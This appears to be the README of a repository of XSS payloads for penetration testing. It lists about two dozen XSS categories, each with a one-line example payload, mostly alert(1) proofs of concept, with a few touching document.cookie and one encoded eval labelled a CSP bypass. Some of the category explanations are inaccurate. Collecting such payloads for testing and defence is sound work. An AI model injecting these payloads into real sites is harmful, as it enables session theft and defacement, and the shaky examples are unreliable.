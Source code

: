 # XSS Payloads Repository

## 🚨 About This Repository
This repository is a comprehensive collection of **XSS (Cross-Site Scripting) Payloads** designed for educational, research, and penetration testing purposes. It includes payloads for various XSS attack types, ranging from common techniques to advanced exploitation methods. Security researchers, bug bounty hunters, and developers can utilize these payloads to test, identify, and mitigate XSS vulnerabilities effectively.

## 🧪 Types of XSS Payloads
This repository features payloads for the following XSS attack types:

### 🔹 Reflected XSS
- Occurs when untrusted data is included in the immediate response without proper validation.
- Payload Example: `<script>alert(1)</script>`

### 🔹 Stored XSS
- Occurs when malicious scripts are permanently stored on the server and executed when accessed.
- Payload Example: `<img src="x" onerror="alert(1)">`

### 🔹 DOM-Based XSS
- Exploits client-side JavaScript manipulation within the DOM.
- Payload Example: `document.write("<img src='x' onerror='alert(1)'>");`

### 🔹 Blind XSS
- Injects payloads in areas that execute later (e.g., admin panels, logs).
- Payload Example: `<svg onload=alert(1)>`

### 🔹 Self XSS
- Exploits users tricked into executing malicious code in their own browsers.
- Payload Example: `javascript:alert(document.cookie)`

### 🔹 Mutation XSS
- Exploits HTML parsers that automatically modify injected payloads.
- Payload Example: `<a href="javascript:alert(1)">Click me</a>`

### 🔹 Polyglot XSS
- Uses hybrid payloads that execute in multiple contexts (HTML, JavaScript, etc.).
- Payload Example: `"><img src=x onerror=alert(1)>`

### 🔹 Universal XSS (UXSS)
- Exploits browser vulnerabilities rather than web applications.
- Payload Example: Browser-specific exploits vary widely.

### 🔹 Attribute-Based XSS
- Injects payloads directly into HTML attributes.
- Payload Example: `<input value='" onfocus="alert(1)' autofocus>`

### 🔹 Cookie-Based XSS
- Exploits insecure cookies to deliver malicious scripts.
- Payload Example: `document.cookie="malicious=1"; alert(document.cookie);`

### 🔹 Post-Based XSS
- Exploits XSS payloads via HTTP POST requests.
- Payload Example: `<input type="text" value="<script>alert(1)</script>">`

### 🔹 JSON-Based XSS
- Injects malicious code into JSON responses processed by JavaScript.
- Payload Example: `{"name":"<script>alert(1)</script>"}`

### 🔹 WebSocket XSS
- Exploits insecure WebSocket connections to inject scripts.
- Payload Example: `ws.send('<script>alert(1)</script>')`

### 🔹 Indirect XSS
- Payloads that exploit third-party integrations to execute code.
- Payload Example: Using vulnerable API endpoints.

### 🔹 Iframe-Based XSS
- Uses iframes to deliver XSS payloads.
- Payload Example: `<iframe src="javascript:alert(1)"></iframe>`

### 🔹 PDF-Based XSS
- Injects JavaScript directly into PDF viewers.
- Payload Example: `/#whatever#javascript:alert(document.cookie)`

### 🔹 SVG-Based XSS
- Exploits SVG elements to trigger malicious code.
- Payload Example: `<svg><script>alert(1)</script></svg>`

### 🔹 Flash-Based XSS
- Targets Flash vulnerabilities (mainly legacy systems).
- Payload Example: Flash-specific exploits vary based on software version.

### 🔹 AJAX XSS
- Payloads designed to exploit AJAX requests.
- Payload Example: `$.get("/vuln", {data:"<script>alert(1)</script>"});`

### 🔹 CSP Bypass XSS
- Exploits misconfigured Content Security Policies.
- Payload Example: `<img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,49,41))">`

### 🔹 Canonical XSS
- Uses encoding techniques to bypass security filters.
- Payload Example: `&#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;`

### 🔹 Event Handler XSS
- Executes payloads via JavaScript event handlers.
- Payload Example: `<img src=x onerror=alert(1)>`

### 🔹 JSONP XSS
- Targets insecure JSONP endpoints to execute payloads.
- Payload Example: `callback=<script>alert(1)</script>`

### 🔹 XHR-Based XSS
- Exploits XMLHttpRequest to deliver payloads.
- Payload Example: `xhr.open("GET", "javascript:alert(1)", true);`

---

